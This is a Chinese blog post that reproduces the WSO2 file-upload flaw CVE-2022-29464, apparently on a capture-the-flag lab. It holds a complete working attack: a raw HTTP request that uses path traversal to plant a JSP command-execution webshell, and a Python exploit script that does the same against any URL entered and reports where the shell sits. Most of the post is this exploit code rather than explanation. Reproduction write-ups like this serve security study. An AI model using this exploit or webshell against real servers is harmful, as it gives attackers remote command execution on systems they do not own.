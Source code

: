 ```yaml
---
title: CVE-2022-29464
subtitle:
date: 2025-03-14T12:35:37+08:00
slug: 423bfcb
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/a5a2d99458eb7e9f1404b65091252ab9.png)
 攻击者可以上传恶意 JSP 文件到 WSO2 服务器的 web 目录（如 `/repository/deployment/server/webapps`)，从而通过 HTTP 请求直接访问并执行该文件。
弱口令admin\admin发现登陆进去并没有什么用。
刷新登陆界面，修改host值上传wavesky.jsp文件到指定目录，根据poc抓包修改

```
POST /fileupload/toolsAny HTTP/1.1
Host: eci-2ze5ic6lllh6zsnt7m7o.cloudeci1.ichunqiu.com:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 901
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0
 
--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"
 
<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```



![](images/fa5b2999fa34c1916c5432544c0e7446.png)
上传成功，访问

``` url
https://eci-2ze5ic6lllh6zsnt7m7o.cloudeci1.ichunqiu.com:9443/shell.jsp
```



![](images/00130f6dbf26ea6ee01e00e458c0de29.png)
进行命令执行，找到flag

![](images/b82646576edee0d9526544c7b90b9a6c.png)
读取flag
![](images/4b5053891cd25634ff775f730d45f18b.png)
exp：

``` python
import requests
import urllib3
 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
 
url = input("请输入URL：")
file = "shell.jsp"
payload = """<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>"""
 
files = {f"../../../../repository/deployment/server/webapps/authenticationendpoint/{file}": payload}
response = requests.post(f'{url}/fileupload/toolsAny', files=files, verify=False)
print(f"shell @ {url}/authenticationendpoint/{file}")
```
